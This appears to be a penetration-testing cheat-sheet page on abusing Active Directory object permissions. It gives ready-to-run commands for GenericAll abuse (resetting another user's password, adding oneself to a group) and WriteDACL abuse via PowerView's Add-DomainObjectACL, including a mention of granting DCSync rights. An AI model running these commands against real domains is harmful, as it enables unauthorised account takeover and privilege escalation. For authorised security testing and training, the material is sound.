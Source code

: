 # Object Security

<details>

<summary>Generic All Abuse</summary>

**Users**

If userA has generic all over userB, userA can change the password of userB

```
net user userb password1 /domain
```

**Groups**

If userA has generic all over the group `testgroup` we can just add ourselves to the group

```
net group testgroup userA /add /domain
```

</details>

<details>

<summary>WriteDACL</summary>

You can abuse the WriteDACL permission by using the `Add-DomainObjectACL` powerview method to add Generic all to this. If this DACL is the domain object, you can add DC Sync `Add-DomainObjectACL -TargetIdentity (object) -PrincipalIdentity offsec -Rights all`

{% code overflow="wrap" %}
```powershell
Add-DomainObjectACL -TargetIdentity testservice2 -PrincipalIdentity offsec -Rights all
```
{% endcode %}

now you can change its password

```powershell
net user testservice2 password1 /domain
```

</details>
